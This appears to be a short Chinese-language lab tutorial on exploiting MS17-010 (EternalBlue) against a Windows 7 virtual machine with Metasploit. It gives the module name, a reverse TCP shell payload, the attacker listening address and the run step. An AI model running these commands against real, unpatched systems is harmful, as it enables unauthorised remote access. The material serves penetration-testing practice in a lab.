

# 使用ms17_010渗透win7

ms17_010针对windows445端口(共享文件), 现有一台win7虚拟机IP 192.168.80.129, 开放445端口, 使用msf渗透该虚拟机

## auxiliary

使用auxiliary判断目标主机是否适用smb17_010漏洞

这里发现80网段, 有一台主机适用

## exploit

使用`search ms17_010 type:exploit`来查找对应的攻击模块

这里使用`exploit/windows/smb/ms17_010_eternalblue`, 填写相关参数

## payload

攻击载荷, 执行具体的攻击, 这里使用`payload/windows/x64/shell/reverse_tcp`, 会让攻击机与目标机建立shell连接

`set payload/windows/x64/shell/reverse_tcp `

设置shell本地监听端口 ` set lhost 192.168.80.200`

## run

执行`run`命令连接目标机, 有一定机率无法连接。

==由于windows dos窗口使用gbk编码， 所以会出现乱码。使用chcp65001将编码改为utf-8==
